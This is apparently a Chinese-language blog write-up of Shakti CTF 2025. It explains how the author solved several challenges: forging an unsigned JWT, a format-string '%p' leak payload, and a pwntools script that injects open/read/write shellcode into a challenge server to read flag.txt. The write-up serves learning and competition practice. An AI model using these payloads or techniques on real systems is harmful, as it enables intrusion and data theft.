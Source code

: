 ```yaml
---
title: Shakti CTF 2025
published: 2025-07-26
updated: 2025-08-05
description: "Shakti CTF 2025 writeup"
image: ""
tags: ["CTF Writeup"]
category: "CTF Writeup"
draft: false
---
```


跟 eating 一起打，這次計分沒有分開計 w

131 th / 554

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726231045.png)

總覺得越來越不會寫 osint 了，半題沒寫出來 (╥﹏╥)

---

# Shakti CTF 2025

## web

### Hooman

從題目給的 source code 來看，沒有驗證 JWT 簽章，所以可以用線上工具生成一個 `are_you_hooman` 欄位是 true 的 JWT token 就可以拿到 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030552.png)

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030750.png)

隨便在首頁輸入一個名字，然後把 cookie 裡面的 JWT token 換成剛剛生成 `are_you_hooman` 為 true 的 token 就拿到 flag 了

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030455.png)

```txt
shaktictf{now_uk_jwts_hoomannnnn}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030509.png)

## forensics

### Binary Reflection

拿到的 pdf 看起來像被倒過來(第一行變成最後一行、第二行變倒數第二行...，依此類推)

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725205953.png)

先把 pdf 內容倒過來

```bash
tac corrupt.pdf > fixed.pdf
```

然後再用線上工具去看 pdf 裡面有沒有藏東西，就拿到 flag 了

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725210554.png)

```txt
shaktictf{pdf_pr3tty_d4m4g3d_f0rm4t}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725210526.png)

### Glitch In Frame

封包裡面有文字以及一張 gif

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725210952.png)

不知道要怎麼正確的把 gif 拿出來，直接把內容複製出來

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725213504.png)

貼到 cyberchef ，output 是一張 gif，可以看出來是在播放的 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725213515.png)

用線上工具把 gif 放慢，就能得到 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725213801.png)

```txt
shaktictf{v1sU4l_d@t4_xf3ltr4t10n_thru_pkt5_and_fr4m3s_is_n0t_a_myth_just_v3ry_und3rr4ted}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725214542.png)

## PWN

### Secret Mission

這題的第一個反應是用 `%p` 去看 stack 上有甚麼

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013334.png)

```txt
AAAAAAAAAAAAAAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
```

在本地測試一下發現只要用很多 `%p` 就可以在 print 出來的東西裡面發現 flag，所以 nc 過去輸入一樣的 payload

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013259.png)

整個貼到 cyberchef 上面就能拿到很像 flag 的東西

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013316.png)

把這段字串貼到 Multi Decoder，再稍微排序一下就得到 flag 了

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013020.png)

```txt
shaktictf{th3_eXtr@ct3d_@bilitie5_v@n1sh_but_th3_fl@g_r3m@1ns}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013235.png)

### Seashells

用 ghidra 看程式碼，首先會讀取最大 0x500 (1280 bytes) 的輸入到 local_518，然後使用 mmap() 建立一塊 可讀、可寫、可執行的記憶體區段（RWX），並將輸入複製到該區段，再把這段記憶體區段當作函式來呼叫，(\*\_\_dest)(); 直接跳入 shellcode 執行

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023602.png)

`seccomp_initialisation()` 裡面有允許的 syscall，例如`open`、`read`、`write` 等少數幾個

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023641.png)

讓 chatgpt 生 script 然後再調整檔名

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

shellcode = asm('''
    xor rax, rax
    lea rdi, [rip + filename]
    xor rsi, rsi
    mov rax, 2          /* sys_open */
    syscall

    mov rdi, rax        /* fd */
    lea rsi, [rip + buf]
    mov rdx, 100
    mov rax, 0          /* sys_read */
    syscall

    mov rdi, 1          /* stdout */
    lea rsi, [rip + buf]
    mov rdx, 100
    mov rax, 1          /* sys_write */
    syscall

    mov rax, 60         /* sys_exit */
    xor rdi, rdi
    syscall

filename:
    .asciz "flag.txt"
buf:
    .space 100
''')

def main():
    p = remote("43.205.113.100", 8855)

    prompt = p.recvuntil(b'>>')
    print(prompt.decode())

    p.send(shellcode.ljust(0x500, b'\x00'))

    flag = p.recvrepeat(timeout=3)
    print("[*] Flag output:\n", flag.decode())

    p.close()

if __name__ == "__main__":
    main()
```

成功拿到 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023516.png)

```txt
shaktictf{u_g0t_wh@t_u_w15h3d__th3_s3@sh311_f1@g}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023316.png)

---

分享一下很酷的東西，如果隊友沒有提示我的話我可能這輩子都找不到這次的 welcome flag 了

不確定甚麼原理，但是在 discord 裡面，這一段符號後面的內容除了把整份文字複製下來才可以看到，並且送出訊息後不會通知

```txt
  ||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​|| _ _ _ _ _
```

應該是整到很多人，太好玩了，到比賽結束前還有人在文字頻道 /flag
